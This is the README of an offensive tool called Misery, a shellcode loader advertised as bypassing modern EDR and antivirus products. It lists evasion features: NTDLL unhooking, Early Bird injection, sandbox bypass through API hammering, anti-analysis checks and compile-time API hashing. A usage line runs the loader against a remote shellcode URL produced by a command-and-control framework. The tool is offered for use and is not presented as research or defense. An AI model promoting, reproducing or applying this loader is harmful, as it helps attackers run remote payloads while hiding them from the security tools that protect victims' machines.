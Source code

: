 # Misery (Evade Av Like Taxes)
## Misery Loader to bypass modern EDR solutions 🖥️ 🛠️
![miserybanner](https://i.imgur.com/yCk788y.jpeg)

## Misery is a code injector with some features
   * 🪝 Unhook NTDLL from suspended process
   * 💉 Early Bird Injection
   * 📦 Sandbox bypass (Api Hammering) ⚒️
   * 🚫 Anti Analysis Functions
   * 😈 Compile Time API Hashing with HashStringJenkins algorithm
   * ❤️ Developed by sorahed with with lots of love
---

## 🆘 Usage 🆘
### 📁 Generate the payload with the c2 of your choice(*.bin)
### ⚔️ Misery.exe --shellcode \<URL/shellcode.bin>






